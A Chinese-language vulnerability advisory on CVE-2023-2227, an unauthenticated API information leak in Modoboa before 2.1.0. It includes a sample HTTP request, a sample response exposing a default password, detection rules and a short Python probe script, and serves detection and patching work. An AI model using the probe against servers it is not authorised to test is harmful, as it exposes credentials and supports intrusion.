

# Modoboa < 2.1.0 未授权信息泄露漏洞（CVE-2023-2227）

## 漏洞简介
Modoboa 2.1.0 之前版本存在权限控制不当漏洞，攻击者可通过未授权访问 API 获取敏感配置信息，包括默认密码、认证类型等，造成信息泄露。

## 影响范围
- 受影响产品：Modoboa < 2.1.0
- CPE: `cpe:2.3:a:modoboa:modoboa:*:*:*:*:*:*:*:*`

## 漏洞原理
API `/api/v2/parameters/core/` 权限校验不严，攻击者可直接访问并获取包含敏感字段的 JSON 数据，导致信息泄露。

## 利用方式与攻击流程
1. 攻击者无需认证，直接访问 `/api/v2/parameters/core/`。
2. 响应返回包含 `label`、`default_password`、`authentication_type` 等敏感字段。
3. 攻击者可据此进行进一步攻击或渗透。

## 探测原理与流程
### 请求包示例
```http
GET /api/v2/parameters/core/ HTTP/1.1
Host: target.com
User-Agent: 7h3h4ckv157
```

### 响应示例
```json
HTTP/1.1 200 OK
Content-Type: application/json

{
  "label": "Modoboa",
  "default_password": "modoboa123",
  "authentication_type": "local"
}
```

### 判定逻辑
- 响应状态码为 200。
- 响应头包含 `application/json`。
- 响应体中包含 `label`、`default_password`、`authentication_type`。

### 伪代码
```python
headers = {"User-Agent": "7h3h4ckv157"}
resp = requests.get('http://target.com/api/v2/parameters/core/', headers=headers)
if resp.status_code == 200 and resp.headers.get('Content-Type') == 'application/json' and all(x in resp.text for x in ["label", "default_password", "authentication_type"]):
    print('存在未授权信息泄露漏洞')
```

### Mermaid 流程图


## 参考链接
- [Huntr 漏洞赏金平台](https://huntr.com/bounties/351f9055-2008-4af0-b820-01ff66678bf3)
- [修复提交](https://github.com/modoboa/modoboa/commit/7bcd3f6eb264d4e3e01071c97c2bac51cdd6fe97)
- [NVD 官方漏洞库](https://nvd.nist.gov/vuln/detail/CVE-2023-2227) 